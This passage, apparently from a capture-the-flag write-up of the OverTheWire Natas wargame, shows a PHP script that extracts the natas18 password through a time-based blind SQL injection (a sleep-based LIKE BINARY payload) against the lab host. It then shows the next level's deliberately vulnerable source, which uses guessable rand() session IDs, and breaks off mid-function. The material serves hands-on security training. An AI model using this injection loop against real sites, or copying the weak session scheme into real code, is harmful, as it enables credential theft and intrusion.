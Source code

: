 ~~~~

for ($i = 0; $i < 32; $i++)
{
    for ($j = 0; $j < strlen($library); $j++)
    {
        $character = $library[$j];
        $query = urlencode("natas18\" AND IF(password LIKE BINARY \"$password$character%\", sleep(5), null) #");
        $start = time();
        $r = get("http://natas17.natas.labs.overthewire.org/index.php?username=$query");
        $end = time();
        if ($end - $start > 4)
        {
            $password .= $character;
            echo "$password\n";
        }
    }
}
~~~~
Beautiful! I kinda like this little brute-forcer template I've written, it's coming in handy quite a bit in these challenges.


## Natas 18 🡆 Natas 19
~~~~
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas18", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas18</h1> 
<div id="content"> 
<? 

$maxid = 640; // 640 should be enough for everyone 

function isValidAdminLogin() { /* {{{ */ 
    if($_REQUEST["username"] == "admin") { 
    /* This method of authentication appears to be unsafe and has been disabled for now. */ 
        //return 1; 
    } 

    return 0; 
} 
/* }}} */ 
function isValidID($id) { /* {{{ */ 
    return is_numeric($id); 
} 
/* }}} */ 
function createID($user) { /* {{{ */ 
    global $maxid; 
    return rand(1, $maxid); 
} 
/* }}} */ 
function debug($msg) { /* {{{ */ 
    if(array_key_exists("debug", $_GET)) { 
~~~~